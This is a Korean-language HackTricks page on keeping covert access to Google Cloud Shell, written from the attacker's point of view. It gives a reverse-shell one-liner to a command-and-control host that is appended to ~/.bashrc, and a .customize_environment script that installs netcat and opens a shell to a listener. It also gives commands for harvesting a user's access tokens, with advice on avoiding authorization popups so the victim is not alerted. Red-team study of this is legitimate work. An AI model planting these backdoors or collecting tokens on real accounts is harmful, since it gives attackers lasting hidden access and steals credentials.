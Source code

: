# GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 직접 클라우드 리소스에 대한 명령줄 액세스를 제공하며, 관련 비용이 없습니다.

**웹 콘솔**에서 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔은 공격자에게 몇 가지 흥미로운 기능을 제공합니다:

1. **Google Cloud에 액세스할 수 있는 모든 Google 사용자**는 완전히 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다 (서비스 계정도 조직의 소유자일 경우 가능합니다).
2. 해당 인스턴스는 **활동이 없으면 최소 120일 동안 홈 디렉토리를 유지**합니다.
3. 해당 인스턴스의 활동을 **모니터링할 수 있는 조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉토리에 백도어를 설치할 수 있으며, 사용자가 최소 120일마다 GC Shell에 연결하기만 하면 백도어가 살아남고 공격자는 매번 실행할 때마다 셸을 얻을 수 있음을 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 또 다른 파일이 있으며, 이 파일이 존재하면 사용자가 **cloud shell**에 접근할 때마다 **실행됩니다** (이전 기술과 유사하게). 이전 백도어 또는 다음과 같은 백도어를 삽입하여 사용자가 "자주" cloud shell을 사용할 때까지 지속성을 유지하십시오:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
인증이 필요한 작업을 **처음 수행할 때** 사용자의 브라우저에 팝업 권한 부여 창이 나타나는 것이 중요합니다. 이 창은 명령이 실행되기 전에 수락해야 합니다. 예상치 못한 팝업이 나타나면 의심을 불러일으킬 수 있으며 사용 중인 지속성 방법이 손상될 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행한 후 (공격자로서) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 적극적으로 사용한 경우 팝업이 나타나지 않으며 **사용자의 토큰을 수집할 수 있습니다**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로, 이 3개의 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 셸의 IP를 알려줍니다)

하지만 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 추가 정보를 찾을 수 있습니다.

## 참고자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
